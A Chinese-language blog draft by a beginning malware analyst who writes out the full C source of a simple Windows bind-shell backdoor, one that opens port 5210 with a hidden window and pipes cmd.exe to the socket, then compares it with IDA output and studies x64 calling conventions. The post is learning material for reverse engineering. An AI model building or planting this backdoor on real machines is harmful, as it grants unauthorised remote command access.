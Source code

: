 +++
title = '从正向木马编写看逆向工程'

description = "新手村知识"

tags = [ "技术" ]

date = 2024-11-26T20:11:59+08:00

draft = true

+++

​	入职第一天，我的mentor和组里的leader就告诉我提高样本分析能力，最重要的事情之一就是先正向编写木马。

​	之前简单编译过一个程序，今天搜了一个非常简单的后门，比较一下反编译的结果和源码的区别。

​	源码如下。

```
#pragma comment(lib,"ws2_32.lib")  //这里我们静态加入一个lib文件，也就是ws2_32.lib</font>

#pragma comment(linker,"/subsystem:\"windows\"/entry:\"mainCRTStartup\"") //设置连接器选项

#include <winsock2.h> //包含头文件winsock2.h,这个是 windows socket的头文件

#include <windows.h> //常用的，不解释

#define MasterPort 5210 //定义一个常量，也就是我们后面要打开的端口

main()   //主函数不解释
{
  WSADATA WSADa; //这个结构被用来存储被WSAStartup函数调用后返回的Windows Sockets数据。后面的基本上差不多就不解释，不懂请大家自行百度
  sockaddr_in SockAddrIn; 
  SOCKET CSocket,SSocket;
  int iAddrSize;
  PROCESS_INFORMATION ProcessInfo;
  STARTUPINFO StartupInfo;
  char szCMDPath[255];
  
  //分配内存，初始化数据
  ZeroMemory(&ProcessInfo,sizeof(PROCESS_INFORMATION));
  ZeroMemory(&StartupInfo,sizeof(STARTUPINFO));
  ZeroMemory(&WSADa,sizeof(WSADATA));

  //获取cmd路径
  GetEnvironmentVariable("COMSPEG",szCMDPath,sizeof(szCMDPath));

  //加载ws2_32.dll
  WSAStartup(0x0202,&WSADa);

  //设置本地信息和绑定协议,建立socket,代码如下:
  SockAddrIn.sin_family = AF_INET;
  SockAddrIn.sin_addr.s_addr = INADDR_ANY;
  SockAddrIn.sin_port = htons(MasterPort);
  CSocket = WSASocket(AF_INET,SOCK_STREAM,IPPROTO_TCP,NULL,0,0);

  //设置绑定端口，将SockAddrIn绑定到CSocket。
  bind(CSocket,(sockaddr *)&SockAddrIn,sizeof(SockAddrIn));

  //设置服务器端监听端口
  listen(CSocket,1);
  iAddrSize = sizeof(SockAddrIn);

  //开始连接远程服务器，并配置隐藏窗口结构体
  SSocket = accept(CSocket,(sockaddr *)&SockAddrIn,&iAddrSize);

  StartupInfo.cb = sizeof(STARTUPINFO);

  StartupInfo.wShowWindow = SW_HIDE;
  
  StartupInfo.dwFlags = STARTF_USESTDHANDLES |

  STARTF_USESHOWWINDOW;

  StartupInfo.hStdInput = (HANDLE)SSocket;

  StartupInfo.hStdOutput = (HANDLE)SSocket;

  StartupInfo.hStdError = (HANDLE)SSocket;
  
  //创建匿名管道：

  CreateProcess(NULL, szCMDPath, NULL, NULL, TRUE, 0, NULL, NULL, &StartupInfo, &ProcessInfo);

  WaitForSingleObject(ProcessInfo.hProcess, INFINITE);

  CloseHandle(ProcessInfo.hProcess);

  CloseHandle(ProcessInfo.hThread);

 

  //关闭进程句柄：

  closesocket(CSocket);

  closesocket(SSocket);

  WSACleanup();

    //关闭连接卸载ws2_32.dll

  return 0;

  }
```

实际IDA反编译出来的效果如下：

![](https://pub-f40a9f95639d4cee81dcb09d9b4adf70.r2.dev/blog/2024/12/14579c8d6365d8c8ebbc49c59bfc8563.png)

可以看到反编译的结果，库的导入和局部变量的定义是没有的，应该是编译过程中，在链接操作之前这些就已经执行完成了。

简单来说这个程序的功能就是开放5210端口，并监听。然后把输入重定向到新起cmd进程，并把cmd进程的输出重定向到5210端口。

##### 对64位下传参的测试

![](https://pub-f40a9f95639d4cee81dcb09d9b4adf70.r2.dev/blog/2024/12/4df417ee0c925a50506052e490c72dfa.png)

传4个参数及以下，使用的是寄存器传参，cd89，第一个参数传到c，第二个参数传到d，第三个参数传到8，第四个参数传到9。从顺序上来看，从右往左，先从第四个开始传，再从第三个开始传...

![](https://pub-f40a9f95639d4cee81dcb09d9b4adf70.r2.dev/blog/2024/12/7cfa50c168c605c3f3c348bc87cc3891.png)

传5个参数及以上，前四个使用寄存器传参，从第五个开始使用堆栈传参(上图是传完了之后的结果，汇编侧可以看到寄存器的使用)。可以看到第五个参数先使用了寄存器将参数从rbp-14h中取出来(寻址方式。反映变化趋势的方面，栈由高地址向低地址生长，参数由低地址向高地址生长。x64dbg的上面是栈顶低地址下面是栈底高地址)。

![](https://pub-f40a9f95639d4cee81dcb09d9b4adf70.r2.dev/blog/2024/12/d8c9290af6a1335497314da67801034c.png)

然后又赋给了rsp+20，最后把eax中存放的第一个参数赋给ecx。

![0880c08b0110ebe3d330](C:\Users\lizhenxin\AppData\Roaming\LanxinSoftCustom\LxResource\Images\0880c08b0110ebe3d330.png)

比较奇怪的是为什么不在栈顶。

##### 基础知识

1. StartupInfo结构体，主要用于创建新进程时，指定该进程的主窗口特性。主要指定窗口显示状态、窗口位置和大小、窗口标题和其他属性。
2. 获取cmd的绝对路径可以使用GetEnvironmentVariableA("COMSPEC", Buffer, 0xFFu)。
3. C语言的强制类型转换：(typename)  expression，typename为新类型名称，expression为表达式。
4. 返回地址的存储，因为是由主调函数进行的压栈操作，所以x64dbg的栈区分，将存储返回地址的部分算作上一个栈。
5. UTF-8 是 Unicode 的实现方式之一。
